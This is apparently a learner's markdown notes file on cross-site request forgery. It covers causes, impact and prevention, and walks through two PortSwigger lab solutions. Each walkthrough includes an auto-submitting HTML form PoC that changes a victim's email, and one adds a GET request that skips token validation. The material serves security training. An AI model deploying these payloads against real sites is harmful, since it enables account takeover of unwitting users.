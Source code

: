 # [CSRF](https://portswigger.net/web-security/csrf)

Causes and Conditions: 

- Applications rely solely on session cookies for authentication without verifying request origin
- Absence of anti-CSRF tokens or SameSite cookie attributes.
- 3 conditions: 
  - A relevant action: email change,...
  - Cookie-based session handling
  - No unpredictable request parameters: request to change password require the old one,...


Impact: 

- Unauthorized actions performed on behalf of authenticated users

- Potential account compromise, fund transfers, or data tampering

Categories: 

- 

Prevention:  

- Use SameSite=strict or SameSite=lax cookie attributes.
- Implement anti-CSRF tokens in state-changing requests.
- Verify the origin or Referer headers server-side.

XSS vs CSRF:

- 

Common Payloads through Labs Completion:

## - Apprentice

### [Lab 1: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

- Log in using the given cred:

![image-20250524092124689](./image/image-20250524092124689.png)

- Using function auto generate CSRF POC of Burpsuite pro: 

![image-20250524093858189](./image/image-20250524093858189.png)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa9008403583938804017ea00ce00dd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="n33r9&#64;hacker4&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- Submit it to the exploit server: tab `body` ` and get the result of email change: 

![image-20250524094141022](./image/image-20250524094141022.png)

=> Change email successfully!

## - Practitioner

### [Lab 1: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)

![image-20250524102252461](./image/image-20250524102252461.png)

- Send request to repeater and change csrf parameter and observe the result: 

![image-20250524102543927](./image/image-20250524102543927.png)

- Change request method: GET

`GET /my-account/change-email?email=n33r9%40hacker3.com&csrf=n33r9`

![image-20250524105750805](./image/image-20250524105750805.png)

=> HTTP/2 302 Found

- Gen new CSRF payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0c00d80307391e8053354f00840064.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="n33r9&#64;hacker3&#46;com" />
      <input type="hidden" name="csrf" value="n33r9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

 ![image-20250524110119226](./image/image-20250524110119226.png)


